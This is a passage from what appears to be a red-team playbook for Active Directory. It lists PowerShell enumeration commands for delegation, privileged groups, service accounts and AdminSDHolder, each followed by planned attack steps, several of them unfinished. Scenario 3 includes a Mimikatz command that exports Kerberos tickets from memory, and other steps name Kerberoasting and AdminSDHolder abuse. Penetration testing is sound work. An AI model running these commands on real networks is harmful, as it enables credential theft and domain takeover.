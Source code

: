#### **Scenario 3: Unconstrained Delegation on Computer**
```powershell
# Finding: Computer with unconstrained delegation
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Monitor for high-privilege logons
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Step 2: Extract TGT from memory
# Step 3: Use for privilege escalation
# PIVOT TO: *Coming Soon*
```

### **👥 USER & GROUP FINDINGS**

#### **Scenario 4: High-Value Group Membership**
```powershell
# Finding: User in Domain Admins or Enterprise Admins
Get-ADGroupMember -Identity "Domain Admins" -Recurse

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Check what the user can access
Get-DomainObjectAcl -SamAccountName "admin_user" -ResolveGUIDs

# Step 2: Look for interesting permissions
# Step 3: Plan privilege escalation path
# PIVOT TO: *Coming Soon*
```

#### **Scenario 5: Service Account with High Privileges**
```powershell
# Finding: Service account in privileged groups
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties memberof | Where-Object {$_.memberof -like "*Domain Admins*"}

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Kerberoast the service account
# Step 2: Use credentials for lateral movement
# Step 3: Leverage group memberships
# PIVOT TO: *Coming Soon*
```

#### **Scenario 6: User with "AdminCount = 1"**
```powershell
# Finding: User protected by AdminSDHolder
Get-ADUser -Filter {adminCount -eq 1} -Properties adminCount

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Check AdminSDHolder permissions
Get-DomainObjectAcl -Identity "CN=AdminSDHolder,CN=System,DC=corp,DC=local"

# Step 2: Look for modification opportunities
# Step 3: Plan AdminSDHolder abuse
# PIVOT TO: *Coming Soon*
```
